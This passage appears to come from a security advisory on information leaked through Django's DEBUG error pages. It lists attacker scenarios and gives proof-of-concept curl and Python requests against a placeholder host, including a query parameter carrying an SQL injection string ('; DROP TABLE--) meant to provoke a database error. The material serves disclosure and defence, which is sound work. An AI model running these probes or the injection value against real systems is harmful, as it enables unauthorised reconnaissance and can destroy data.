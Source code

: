 #### Scenario 4: Authentication Bypass Research
```
1. Attacker triggers authentication error
2. Stack trace reveals authentication flow
3. Middleware chain and decorators exposed
4. Attacker identifies authentication logic weaknesses
5. Custom bypass developed based on exposed code
```

#### Scenario 5: API Endpoint Discovery
```
1. Attacker accesses invalid URL patterns
2. DEBUG page shows URL configuration
3. Hidden/undocumented endpoints discovered
4. Admin panels and API endpoints mapped
5. Attack surface significantly expanded
```

---

## Proof of Concept

### Triggering Information Disclosure

#### Method 1: 404 Error Page
```bash
# Access non-existent URL
curl https://target-application.com/nonexistent-page

# Returns detailed 404 debug page with:
# - URL patterns
# - Attempted URL resolution
# - Django version
# - Python version
# - Request metadata
```

#### Method 2: 500 Internal Server Error
```bash
# Trigger application error with invalid input
curl -X POST https://target-application.com/api/endpoint \
  -H "Content-Type: application/json" \
  -d '{"field": "INVALID_VALUE_TYPE"}'

# Returns detailed error page with:
# - Complete stack trace
# - Source code snippets
# - Local variables at each stack frame
# - SQL queries (if database involved)
```

#### Method 3: Database Error
```python
# Send malformed query parameter
import requests

response = requests.get(
    'https://target-application.com/articles',
    params={'id': "'; DROP TABLE--"}
)

# DEBUG page reveals:
# - Exact SQL query attempted
# - Database engine used
```